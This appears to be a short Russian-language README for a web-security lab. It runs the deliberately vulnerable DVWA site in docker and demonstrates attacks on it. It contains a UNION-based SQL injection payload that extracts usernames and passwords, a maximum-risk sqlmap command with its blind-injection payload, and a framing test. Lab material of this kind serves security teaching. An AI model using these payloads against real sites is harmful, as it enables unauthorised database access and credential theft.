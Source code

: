 ## Запуск тестового сайта

```
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

## Настройка
1. http://localhost/index.php
2. reset/create database
3. admin:password
4. `%' and 1=0 union select null, concat(user,':',password) from users`

## SQL-injection scan example
`sqlmap -r sqlmap.example --dbms=mysql --risk=3 --level=5`<br/>
GET parameter 'id' is **vulnerable**. <br/>
sqlmap identified the following injection point(s) with a total of 502 HTTP(s) requests:
```
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: id=1' OR NOT 4197=4197-- twle&Submit=Submit
```

## XSS-injection example
open iframe.html in browser you should not see the site<br/>
Refused to display 'https://ya.ru/' in a frame because it set 'X-Frame-Options' to 'deny'.<br/>
But on the vulnerable app like localhost/login.php you will see the form

